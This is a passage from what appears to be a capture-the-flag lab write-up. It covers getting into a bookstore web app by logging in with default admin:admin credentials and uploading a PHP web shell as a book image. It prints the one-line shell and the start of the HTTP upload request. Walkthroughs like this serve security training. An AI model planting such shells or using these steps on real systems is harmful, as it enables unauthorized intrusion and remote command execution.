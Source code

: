 > A simple login check for `admin:admin` works.
{: .prompt-info }

## file upload and rce
Having a closer look at the admin panel reveals, that it is possibilty to edit books and upload an image for a book. 

![edit book](/images/funboxeasy_editbook.png)  

In the first step we create a simple `PHP` shell, we will try to upload to the server as a book image.

```php
<?php system($_REQUEST['cmd']); ?>
```

Now we try to upload it via the edit form.
### request
```http
POST /store/edit_book.php HTTP/1.1
Host: 192.168.230.111
Content-Length: 1536
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.230.111
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryu10O2ndJrR7Bw8AK
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.72 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.230.111/store/admin_edit.php?bookisbn=978-1-49192-706-9
```
